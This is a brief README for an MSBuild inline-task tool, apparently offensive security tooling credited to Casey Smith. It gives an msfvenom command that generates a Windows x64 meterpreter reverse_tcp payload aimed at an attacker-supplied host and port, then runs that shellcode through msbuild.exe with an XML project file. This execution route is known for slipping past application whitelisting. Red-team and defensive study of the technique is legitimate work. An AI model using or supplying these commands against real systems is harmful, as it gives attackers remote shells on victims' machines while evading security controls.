 # msbuild-inline-task


## Usage:

### X64 shellcode 

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=x.x.x.x lport=4444 -f csharp`

### change shellcode in xml file (Example："executes x64 shellcode.xml")

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe shellcode_x64.xml`



Author: Casey Smith, Twitter: @subTee

License: BSD 3-Clause

More details:

https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/
